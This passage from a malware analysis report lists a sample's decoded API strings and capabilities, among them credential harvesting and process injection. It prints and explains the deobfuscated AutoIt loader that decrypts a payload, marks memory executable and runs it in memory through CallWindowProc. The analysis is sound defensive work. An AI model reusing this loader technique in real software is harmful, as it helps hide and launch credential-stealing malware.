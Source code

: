 ### Key Decoded Strings

- `GetProcessHeap`
- `HeapAlloc`
- `VirtualProtect`
- `CallWindowProc`
- `DllStructCreate`

---

### Capabilities *(from capa + PEStudio)*

- Registry **Run-key persistence** *(not observed during dynamic analysis; dnSpy of an ExtremeDumper dump shows it’s disabled by default in this variation)*
- **Process injection** + remote thread creation
- **HTTPS/SMTP** communications
- **Credential harvesting**
- **Anti-analysis** techniques *(WOW64 disable, process enumeration)*

---

### Deobfuscated Code Extracted from `main_sample.exe`

```
FileInstall ( "Archimago" , @TempDir & "\Archimago" , 1 )
Global $RDEVAVC = KOGMOFDJ ( FileRead ( @TempDir & "\Archimago" ) )
FileInstall ( "complacence" , @TempDir & "\complacence" , 1 )
Global $WJORKAPW = DllCall ("kernel32.dll", "ptr", "GetProcessHeap") [ 0 ]
Global $JIVEKJU = DllCall ("kernel32.dll", "ptr", "HeapAlloc", "ptr", $WJORKAPW , "dword", 0 , "dword", BinaryLen ( $RDEVAVC ) ) [ 0 ]
DllStructSetData ( DllStructCreate ("byte[" & BinaryLen ( $RDEVAVC ) & "]" , $JIVEKJU ) , 1 , $RDEVAVC )
DllCall ( "kernel32.dll", "bool", "VirtualProtect", "ptr", $JIVEKJU , "dword", BinaryLen ( $RDEVAVC ) , "dword", 0x40, "dword*", 0 )
DllCall ( "user32.dll", "ptr", "CallWindowProc" , "ptr", $JIVEKJU + 9200 , "ptr", 0 , "ptr", 0 , "ptr", 0 , "ptr", 0 )

```
This decoded AutoIt snippet shows the core loader functionality:
1. **Extract & decrypt**: `Archimago` is extracted to `%TEMP%` and decrypted in‑memory into `$RDEVAVC`.  
2. **Allocate**: Memory for the payload is obtained via the Windows heap APIs (`GetProcessHeap` -> `HeapAlloc`).  
3. **Write**: The decrypted  payload is copied into the buffer (`DllStructSetData`).  
4. **Make executable**: `VirtualProtect` switches the region to `PAGE_EXECUTE_READWRITE` (`0x40`).  
5. **Execute**: The payload is invoked by calling an **entrypoint within the buffer** (offset `9200` bytes) using `CallWindowProc`, a common trampoline to run shellcode/PE stubs in memory.

**For detailed deobfuscation of the AutoIt loader, see **[Appendix B - Deobfuscation of the AutoIt Script](#appendix-b---deobfuscation-of-the-autoit-script)****

### Managed stage (minimal)
